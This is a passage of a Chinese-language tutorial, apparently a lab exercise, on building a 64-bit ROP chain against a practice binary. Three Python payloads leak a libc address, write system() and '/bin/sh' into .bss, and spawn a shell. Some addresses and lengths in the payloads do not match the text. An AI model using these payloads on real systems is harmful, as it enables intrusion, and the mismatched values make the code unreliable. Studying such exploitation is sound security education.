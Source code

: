 ```
  400615:   4c 8b 6c 24 20          mov    0x20(%rsp),%r13
  40061a:   4c 8b 74 24 28          mov    0x28(%rsp),%r14
  40061f:   4c 8b 7c 24 30          mov    0x30(%rsp),%r15
  400624:   48 83 c4 38             add    $0x38,%rsp
  400628:   c3                      retq 
```

我们可以看到利用0x400610处的代码我们可以控制r12,r13,r14和r15的值，随后利用0x4005f0处的代码我们将r15的值赋值给rdx, r14的值赋值给rsi,r13的值赋值给edi，随后就会调用 `call qword ptr [r12+rbx*8]` 。这时候我们只要再将rbx的值赋值为零，再通过精心构造栈上的数据，我们就可以控制pc去调用write()函数了。

首先我们先用ROPgadget在level5中找到控制rbx值的gadget。

```
#!bash
$ ROPgadget --binary level5 --only "pop|ret" | grep rbx
0x0000000000400511 : pop rbx ; pop rbp ; ret 
```

随后我们先构造payload1，利用write()输出write在内存中的地址。注意我们的gadget是 `call qword ptr [r12+rbx*8]` ，所以我们应该使用write.got的地址而不是write.plt的地址。并且为了返回到原程序中，重复利用buffer overflow的漏洞，我们需要继续覆盖栈上的数据，直到把返回值覆盖成目标函数的main函数为止。

```
#!python
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#write(rdi=1, rsi=write.got, rdx=4)
payload1 =  "\x00"*136
payload1 += p64(0x400610) + p64(0)*3 + p64(got_write) + p64(1) + p64(got_write) + p64(8) # pop_r12_r13_r14_r15_ret
payload1 += p64(0x400673) + p64(0) + p64(1) #pop rbx; pop rbp; ret
payload1 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload1 += "A"*56
payload1 += p64(main) 
```

当我们exp在收到write()在内存中的地址后，就可以计算出system()在内存中的地址了。接着我们构造payload2，利用read()将system()的地址以及“/bin/sh”读入到.bss段内存中。

```
#!python
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#read(rdi=0, rsi=bss_addr, rdx=16)
payload2 =  "\x00"*136
payload2 += p64(0x400610) + p64(0)*3 + p64(got_read) + p64(0) + p64(bss_addr) + p64(16) # pop_r12_r13_r14_r15_ret
payload2 += p64(0x400673) + p64(0) + p64(1) #pop rbx; pop rbp; ret
payload2 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload2 += "A"*56
payload2 += p64(main) 
```

最后我们构造payload3,调用system()函数执行“/bin/sh”。注意，system()的地址保存在了.bss段首地址上，“/bin/sh”的地址保存在了.bss段首地址+8字节上。

```
#!python
#rdi=  edi = r13,  rsi = r14, rdx = r15 
#system(rdi = bss_addr+8 = "/bin/sh")
payload3 =  "\x00"*136
payload3 += p64(0x400610) + p64(0)*3 + p64(bss_addr) + p64(bss_addr+8) + p64(0) + p64(0) # pop_r12_r13_r14_r15_ret
payload3 += p64(0x400673) + p64(0) + p64(1) #pop rbx; pop rbp; ret
payload3 += p64(0x4005F0) # mov rdx, r15; mov rsi, r14; mov edi, r13d; call qword ptr [r12+rbx*8]
payload3 += "A"*56
payload3 += p64(main) 
```
